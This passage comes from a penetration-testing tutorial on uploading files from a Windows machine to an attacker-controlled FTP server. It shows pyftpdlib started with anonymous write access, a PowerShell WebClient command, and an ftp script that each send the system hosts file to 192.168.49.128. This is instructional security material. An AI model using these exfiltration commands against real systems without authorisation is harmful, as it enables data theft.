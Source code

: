 We start the FTP server with the `--write` flag to allow uploading:

```bash
$ sudo python3 -m pyftpdlib --port 21 --write

```

This starts the FTP server on port 21, with write permissions for anonymous users.

### Uploading Files via PowerShell

Using PowerShell, we can upload a file to the FTP server with the following command:

```powershell
(New-Object Net.WebClient).UploadFile('<ftp://192.168.49.128/ftp-hosts>', 'C:\\Windows\\System32\\drivers\\etc\\hosts')

```

This command uploads the `hosts` file to the specified FTP server.

### Creating an FTP Command File

Alternatively, you can create an FTP command file (`ftpcommand.txt`) to automate the file upload process:

```powershell
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\\windows\\system32\\drivers\\etc\\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt

```

This script automates logging in, setting the transfer mode to binary, uploading the file, and closing the connection.

---

### Recap

This section highlighted multiple methods to upload files using native tools such as PowerShell, FTP, and WebDAV. Each method allows file transfer under different network configurations, offering flexibility in various penetration testing scenarios.